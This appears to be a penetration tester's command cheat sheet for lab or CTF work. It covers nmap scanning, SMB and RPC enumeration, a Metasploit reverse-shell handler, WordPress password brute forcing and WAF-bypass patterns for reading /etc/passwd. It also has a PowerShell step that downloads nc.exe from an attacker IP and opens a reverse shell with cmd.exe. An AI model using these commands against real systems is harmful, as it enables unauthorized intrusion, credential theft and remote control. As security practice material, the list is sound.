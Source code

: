 ## Some commands which I used frequently 

### python command for bash 

python3 -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' 

### spawn nicer shell 

/usr/bin/script -qc /bin/bash /dev/null

### to get nobody removed in NFS share

sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share


### msf meterpreter shell listener

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp


### Search 
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2


### nmap

Scan using default safe scripts 		:	nmap -sV -sC 

Scan 100 most common ports (Fast): 		:	nmap -F 
Scan using TCP connect 					:	nmap -sT 
Scan using TCP SYN scan (default) 		:	nmap -sS 
Scan UDP ports 							:	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		:	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		:	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		:	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						:	nmap -Pn -p445 --script vuln -oN reconop.txt 


### SMB as used for msf

set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1

### SMB as cmd

smbclient //1.1.1.4/ < folder name >

### smbmap
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication


### where command in win to search type of files
where /r c:\ proof.txt


### Wordpress brute force

wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt


### shell from powershell 

first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow


### Dropbox links

ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data


### file browser for jsp


java -jar file-browser.jar


### gcc
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp

### rpc commands

rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users


### /etc/passwd WAF restriction? Use these:
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?

### paths for .bashrc

export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups

### paths for .zshrc

export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
